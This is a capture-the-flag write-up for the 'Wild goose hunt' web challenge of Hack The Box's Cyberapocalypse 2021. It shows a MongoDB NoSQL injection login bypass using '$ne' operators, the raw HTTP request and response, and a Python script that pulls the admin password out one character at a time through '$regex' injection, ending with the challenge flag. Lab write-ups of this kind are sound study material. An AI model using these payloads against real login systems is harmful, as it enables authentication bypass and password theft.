 ```yaml
---
slug: wild-goose-hunt-cyberapocalypse-2021-ctf
title: Wild goose hunt - Cyberapocalypse 2021 CTF
description: This is a writeup for the Wild goose hunt challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the Wild goose hunt challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

<!-- truncate -->

### Recon

We're given source-code for a web-site, and a hosted version.

With a quick overview of the code we're given, we see that the site uses `mongodb` as its database. Albeit slightly dumb, I didn't go into any more detail than this, and didn't check where the flag is actually hidden.

### Attempting to log in

My initial idea was to simply log into the site, and see if that doesn't display the flag. So, I intercepted a login request with Burpsuite, and changed the POST request data to a classic mongo injection string,

```yaml
POST /api/login HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:1337/
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://localhost:1337
Content-Length: 35
Connection: close

username[$ne]=foo&password[$ne]=bar
```

Which returns a login success message.

```yaml
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 62
ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
Date: Tue, 27 Apr 2021 17:31:15 GMT
Connection: close

{"logged":1,"message":"Login Successful, welcome back admin."}
```

But upon observing the login page of the site, we find nothing, but a welcome message.

![welcome message](/content/images/2021/04/Screenshot_2021-04-27_20-34-50.png)

So at this point, I just assumed that the flag is the password itself (which I would had already known, if I had checked the `entrypoint.sh` script).

### Solution

In order to correctly guess the password (and know what it is), we are going to once again use nosql injection, but this time we will use the [$regex] query for mongo.

1. We send a POST request to `/api/login` using the username `admin` and a regex match query for the password with a random (printable) character.
2. If the login is successful, we assume that this character is indeed part of the password, so we add it to our flag, and try again with the next position in the password
3. Simple as that, let's script it

```python
import requests
import string

# Assumptions
# We suspect that the password is the flag
# the flag starts with "CBTH{"
# and ends with "}"

flag = "CHTB{"
url = "http://165.227.236.40:31535/api/login"

# Each time a login is successful, we should start the loop from the first character
startFromFirstChar = True

while startFromFirstChar:
    startFromFirstChar = False

    # avoiding characters like * . & +
    for char in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + char
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data)

        # A correct password means we get "logged":1 in response
        if ('"logged":1' in r.text):
            print(payload)
            startFromFirstChar = True
            flag = payload

            # Exit if "}" is at the end and we are logged in
            if char == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```

![running](/content/images/2021/04/Screenshot_2021-04-28_09-21-31.png)

And so, we get our flag

```sh
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```